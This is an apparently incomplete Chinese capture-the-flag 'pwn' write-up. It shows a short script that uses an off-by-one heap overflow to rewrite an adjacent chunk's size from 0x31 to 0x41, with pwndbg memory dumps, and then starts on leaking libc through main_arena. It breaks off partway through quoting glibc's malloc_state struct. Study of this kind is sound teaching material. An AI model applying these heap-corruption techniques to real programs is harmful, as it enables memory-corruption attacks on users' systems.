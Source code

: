 # pwn

## 漏洞阐述

由于off_by_one漏洞的存在，在特定情况下，我们可以修改chunk_size。

```python
a  = alloc(0x28)
b  = alloc(0x20)
launch_gdb()
raw_input("x")
update(a,'A'*0x28)
p.interactive()
```

开始运行，内存如下:

```shell
pwndbg> x/10xg 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000031
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000000
0x555555757030:	0x0000000000000000	0x0000000000000031   |  0x31 = 0x30(size) | 1
```

输入x,内存如下:

```
x555555757000:	0x0000000000000000	0x0000000000000031
0x555555757010:	0x4141414141414141	0x4141414141414141
0x555555757020:	0x4141414141414141	0x4141414141414141
0x555555757030:	0x4141414141414141	0x0000000000000041   | 0x41 = 0x40(size) | 1
```

我们可以看到第二块的大小已经由0x31被修改为0x41。

## 泄露libc地址和main_arena地址

前置: main_arena是存储在libc.so的一个数据段 

```c
struct malloc_state {
    /* Serialize access.  */
    __libc_lock_define(, mutex);

    /* Flags (formerly in max_fast).  */
    int flags;

    /* Fastbins */
    mfastbinptr fastbinsY[ NFASTBINS ];

    /* Base of the topmost chunk -- not otherwise kept in a bin */
    mchunkptr top;

    /* The remainder from the most recent split of a small request */
    mchunkptr last_remainder;

    /* Normal bins packed as described above */
    mchunkptr bins[ NBINS * 2 - 2 ];

    /* Bitmap of bins, help to speed up the process of determinating if a given bin is definitely empty.*/
    unsigned int binmap[ BINMAPSIZE ];

    /* Linked list, points to the next arena */
    struct malloc_state *next;
```